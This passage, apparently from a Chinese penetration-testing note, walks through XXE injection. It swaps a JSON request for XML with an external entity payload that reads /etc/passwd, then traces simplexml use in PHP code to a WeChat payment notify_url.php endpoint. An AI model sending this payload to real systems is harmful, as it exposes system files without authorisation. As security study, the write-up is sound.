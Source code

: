 ![image-20240512142150020](D:\Infiltration\笔记\note\图片\image-20240512142150020.png)服务器生成读取出来的file.txt

![image-20240512142212440](D:\Infiltration\笔记\note\图片\image-20240512142212440.png)

#### 测试案例

![image-20240512144341572](D:\Infiltration\笔记\note\图片\image-20240512144341572.png)

抓包显示的是json的数据包

![image-20240512144423800](D:\Infiltration\笔记\note\图片\image-20240512144423800.png)

将json数据类型改成xml类型

```
<?xml version="1.0"?>
<!DOCTYPE Mikasa [
<!ENTITY test SYSTEM  "file:///etc/passwd">
]>
<user>&test;</user>
```

![image-20240512144921317](D:\Infiltration\笔记\note\图片\image-20240512144921317.png)



#### 白盒审计



##### 搜索simplexml函数

![image-20240512161414260](D:\Infiltration\笔记\note\图片\image-20240512161414260.png)



##### 找到simplexml函数

![image-20240512161924132](D:\Infiltration\笔记\note\图片\image-20240512161924132.png)

pe_getxml方法用到了simplexml，使用CTRL+B快捷键转到pe_getxml方法声明或用例

![image-20240512162127787](D:\Infiltration\笔记\note\图片\image-20240512162127787.png)

转到pe_getxml用例可以看到，wechat_getxml调用了pe_getxml,相当于wechat_getxml调用了simplexml函数。

![image-20240512162643430](D:\Infiltration\笔记\note\图片\image-20240512162643430.png)

使用CTRL+B快捷键转到wechat_getxml方法声明或用例，下面使用xml返回的数据都是固定的，应该是无回显

![image-20240512162919886](D:\Infiltration\笔记\note\图片\image-20240512162919886.png)

复制路径地址访问抓包

```
include/plugin/payment/wechat/notify_url.php
```

